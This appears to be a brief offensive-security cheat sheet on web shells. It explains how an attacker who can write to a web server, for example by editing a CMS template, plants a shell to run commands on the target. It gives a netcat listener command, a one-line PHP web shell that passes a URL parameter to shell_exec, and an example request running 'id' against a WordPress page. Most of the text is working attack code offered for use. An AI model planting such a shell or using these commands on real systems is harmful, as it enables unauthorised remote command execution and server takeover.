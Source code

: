 # Web shells

Instead of enumerating a system with simple command injection on a web application, an attacker can opt to inject code that spawns a shell for executing commands on the target sytem.

## Listeners

### Netcat listener
```
nc -lvp 443
```


## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://127.0.0.1/wordpress/index.php?cmd=id
```
